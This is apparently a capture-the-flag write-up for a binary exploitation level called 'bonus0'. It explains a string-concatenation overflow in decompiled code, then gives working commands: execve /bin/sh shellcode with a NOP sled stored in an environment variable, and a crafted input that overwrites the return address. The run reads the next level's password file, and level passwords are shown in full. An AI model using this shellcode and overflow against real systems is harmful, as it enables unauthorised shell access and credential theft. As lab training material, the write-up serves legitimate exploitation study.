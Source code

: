 # Bonus 0
*pass : f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728*

```
$ scp -P 4242 bonus0@192.168.56.108:bonus0 binary/
```
~uVar2 => inverse chaque bit
```
    *(undefined2 *)(str + (~uVar2 - 1)) = 32;
```
- 32 = `space`
- uVar2 = `4294967295 - strlen(input1)`
- `~uVar2 - 1` = len of input1
- ex: if no overflow -> "input1`space`input2"

"reduce" shellcode :
```
$ scp -P 4242 bonus0/Ressources/getenv.c bonus0@192.168.56.108:/tmp/
```
```
$ export SHELLCODE=$(python -c 'print "\x90" * 200 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
$ cd /tmp
$ gcc getenv.c
$ ./a.out
0xbffff83f
```

```
$ python -c 'print "\x90" * 4095 + "\n" + "\x90" * 9 + "\x3f\xf8\xff\xbf" + "\x42" * 8' > /tmp/bonus0
$ cat /tmp/bonus0 - | ./bonus0 
...
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

